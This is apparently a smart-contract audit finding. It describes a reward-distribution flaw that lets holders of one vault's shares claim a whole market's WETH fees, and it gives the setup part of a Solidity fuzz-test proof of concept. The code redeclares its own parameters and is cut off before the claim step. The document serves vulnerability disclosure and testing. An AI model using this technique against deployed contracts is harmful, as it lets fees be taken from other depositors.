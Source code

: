 Distribution::distributeValue takes the inflated weth rewards returned in vault::vaultTotalWethRewardChangeX18 and distributes it between all shareholders which allows actors who hold shares of a particular vault to claim fees for the entire market which prevents actors with other vault shares connected to the same market from claiming their fees from the market.

## Proof Of Code (POC)

```solidity
function testFuzz_vaultinflatedwethrewards(
uint128 assetsToDepositA,
uint128 assetsToDepositB,
uint256 vaultId1,
uint256 vaultId2,
uint256 marketId1,
uint128 marketFees,
uint256 adapterIndex
)
external
{
vm.stopPrank();
VaultConfig memory fuzzVaultConfig1 = getFuzzVaultConfig(vaultId1);
vm.assume(fuzzVaultConfig1.asset != address(usdc));
PerpMarketCreditConfig memory fuzzMarketConfig1 = getFuzzPerpMarketCreditConfig(marketId1);
     VaultConfig memory fuzzVaultConfig2 = getFuzzVaultConfig(vaultId2);
     vm.assume(fuzzVaultConfig2.asset != address(usdc));
    vm.assume(fuzzVaultConfig1.vaultId != fuzzVaultConfig2.vaultId);

    //c set up 2 vaults and connect them to 1 market
    uint256[] memory marketIds = new uint256[](2);
    marketIds[0] = fuzzMarketConfig1.marketId;
    marketIds[1] = fuzzMarketConfig1.marketId;

    uint256[] memory vaultIds = new uint256[](2);
    vaultIds[0] = fuzzVaultConfig1.vaultId;
    vaultIds[1] = fuzzVaultConfig2.vaultId;

     vm.prank(users.owner.account);
    marketMakingEngine.connectVaultsAndMarkets(marketIds, vaultIds);


   //c 2 users are configured and deposit into each vault
    address userA = users.naruto.account;
    address userB = users.sasuke.account;
   uint128 assetsToDepositA =
        uint128(bound(assetsToDepositA, calculateMinOfSharesToStake(fuzzVaultConfig1.vaultId), fuzzVaultConfig1.depositCap / 2));
    fundUserAndDepositInVault(userA, fuzzVaultConfig1.vaultId, assetsToDepositA);

    uint128 assetsToDepositB =
        uint128(bound(assetsToDepositB, calculateMinOfSharesToStake(fuzzVaultConfig2.vaultId), fuzzVaultConfig2.depositCap / 2));
    fundUserAndDepositInVault(userB, fuzzVaultConfig2.vaultId, assetsToDepositB);


    //c both users stake assets in respective vaults
    vm.startPrank(userA);
    marketMakingEngine.stake(fuzzVaultConfig1.vaultId, uint128(IERC20(fuzzVaultConfig1.indexToken).balanceOf(userA)));
    vm.stopPrank();
    vm.startPrank(userB);
    marketMakingEngine.stake(fuzzVaultConfig2.vaultId, uint128(IERC20(fuzzVaultConfig2.indexToken).balanceOf(userB)));
    vm.stopPrank();

```